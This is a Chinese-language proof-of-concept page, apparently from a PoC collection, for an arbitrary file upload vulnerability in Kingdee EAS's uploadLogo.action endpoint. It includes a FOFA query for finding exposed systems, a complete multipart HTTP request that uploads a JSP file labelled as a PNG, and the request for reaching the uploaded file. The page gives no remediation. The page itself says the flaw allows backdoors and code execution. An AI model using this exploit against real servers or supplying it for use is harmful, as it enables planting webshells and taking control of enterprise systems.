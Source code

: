 
## 金蝶OA-EAS系统 uploadLogo.action 任意文件上传漏洞

金蝶 EAS 及 EAS Cloud 是金蝶软件公司推出的一套企业级应用软件套件，旨在帮助企业实现全面的管理和业务流程优化。金蝶 EAS 及 EAS Cloud 在 uploadLogo.action 存在文件上传漏洞，攻击者可以利用文件上传漏洞执行恶意代码、写入后门、读取敏感文件，从而可能导致服务器受到攻击并被控制。

## fofa
```
app="Kingdee-EAS"
```

## poc
```
POST /plt_portal/setting/uploadLogo.action HTTP/1.1
Host: 
User-Agent: Mozilla/4.0 (Mozilla/4.0; MSIE 7.0; Windows NT 5.1; FDM; SV1; .NET CLR 3.0.04506.30)
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
X-Forwarded-For: 
Content-Length: 632
Content-Type: multipart/form-data; boundary=04844569c7ca7d21a3ca115dca477d62

--04844569c7ca7d21a3ca115dca477d62
Content-Disposition: form-data; name="chooseLanguage_top"; filename="chooseLanguage_top"

ch
--04844569c7ca7d21a3ca115dca477d62
Content-Disposition: form-data; name="dataCenter"; filename="dataCenter"

xx
--04844569c7ca7d21a3ca115dca477d62
Content-Disposition: form-data; name="insId"; filename="insId"


--04844569c7ca7d21a3ca115dca477d62
Content-Disposition: form-data; name="type"; filename="type"

top
--04844569c7ca7d21a3ca115dca477d62
Content-Disposition: form-data; name="upload"; filename="test.jsp"
Content-Type: image/png

test
--04844569c7ca7d21a3ca115dca477d62--
```
![3c4d1cec26f6b03e1876b02c2f7029d9](../../images/d7a2b831-852c-4488-bcd0-f9967d0e32a4.png)

## 上传文件路径
```

GET /portal/res/file/upload/xxx.jsp HTTP/1.1
Host: 
User-Agent: Mozilla/4.0 (Mozilla/4.0; MSIE 7.0; Windows NT 5.1; FDM; SV1; .NET CLR 3.0.04506.30)
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
X-Forwarded-For:
```
![47f8b3b0cc61c63d9a0d2d2b54a602dc](../../images/8a80fc29-9d8e-4622-a465-3c3c423f1e57.png)
